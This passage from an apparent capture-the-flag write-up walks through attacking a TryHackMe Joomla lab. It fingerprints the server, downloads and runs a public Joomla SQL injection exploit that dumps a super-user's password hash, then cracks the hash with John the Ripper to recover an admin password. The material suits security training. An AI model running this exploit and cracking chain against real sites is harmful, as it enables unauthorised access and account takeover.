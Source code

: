```
---
[10:35:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0
```

With this scan we were able to find some other useful information like MySQL version, Apache version, PHP version and the OS running on the machine. After a little online search I was able to find [this](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) python exploit. Let's try it

```
$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah.py http://10.10.24.96

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We succesfully found the user `jonah` and his hashed password. Let's crack it with John The Ripper

```
$ echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash

spiderman123     (?)
```

We can try to log into the Joomla administration tool with the credentials we just found.
